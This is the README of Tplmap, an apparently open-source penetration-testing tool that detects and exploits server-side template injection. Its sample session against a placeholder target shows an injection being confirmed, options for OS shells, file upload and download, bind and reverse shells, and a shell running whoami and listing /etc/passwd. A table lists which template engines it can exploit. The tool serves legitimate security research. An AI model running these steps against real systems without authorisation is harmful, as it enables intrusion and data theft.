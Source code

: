 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI). This assists SSTI exploitation to compromise the application and achieve remote command execution on the operating system. 

The tool can be used by security researchers and penetration testers, to detect and exploit vulnerabilities and study the template injection vulnerability class.

The plugin architecture makes easy to extend the tool and support new template engines and sandbox break-out techniques. Part of the implemented techniques came from public research papers as James Kett's [Server-Side Template Injection: RCE For The Modern Web App][1] and other [works][4] while others have been [discovered][2] to [extend][3] this tool exploitation capabilities. 

Tplmap is able to detect and achieve arbitrary command execution in several scenarios as injections in code context and blind injections. The tool also detects code injections in several languages (e.g. Server-Side JavaScript Injection) exploiting _eval()_-like injections and generic template engines accepting arbitrary code.

Example
-------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=7'
[+] Tplmap 0.1
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'id' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Jade plugin is testing rendering with tag '\n= *\n'
[+] Jade plugin has confirmed injection with tag '\n= *\n'
[+] Tplmap identified the following injection point:

  GET parameter: id
  Engine: Jade
  Injection: \n= *\n
  Context: text
  OS: darwin
  Technique: render
  Capabilities:

   Code evaluation: yes, javascript code
   Shell command execution: yes
   File write: yes
   File read: yes
   Bind and reverse shell: yes

[+] Rerun tplmap providing one of the following options:

    --os-shell or --os-cmd to execute shell commands via the injection
    --upload LOCAL REMOTE to upload files to the server
    --download REMOTE LOCAL to download remote files
    --bind-shell PORT to bind a shell on a port and connect to it
    --reverse-shell HOST PORT to run a shell back to the attacker's HOST PORT
          
$ ./tplmap.py -u 'http://www.target.com/app?id=7' --os-shell

[+] Run commands on the operating system.

linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine      | Techniques         | Command execution | Code evaluation | File read | File write |
|----------------------|--------------------|-------------------|-----------------|-----------|------------|
| Mako                 |  render/blind      | yes               | Python          | yes       | yes        |
| Jinja2               |  render/blind      | yes               | Python          | yes       | yes        |
| Python (generic)     |  render/blind      | yes               | Python          | yes       | yes        |
| Nunjucks             |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Jade                 |  render/blind      | yes               | JavaScript      | yes       | yes        |
| JavaScript (generic) |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Dust (<= dustjs-helpers@1.5.0) |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Smarty (unsecured)   |  render/blind      | yes               | PHP             | yes       | yes        |
| PHP (generic)        |  render/blind      | yes               | PHP             | yes       | yes        |
| Freemarker           |  render/blind      | yes               | no              | yes       | yes        |
| Velocity             |  render/blind      | yes               | no              | yes       | yes        |
| Twig                 |  render            | no                | no              | no        | no         |
| Smarty (secured)     |  render            | no                | no              | no        | no         |
| Dust (> dustjs-helpers@1.5.0)  |  render            | no                | no              | no        | no         |

[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[2]: https://github.com/epinna/tplmap/issues/9
[3]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[4]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html

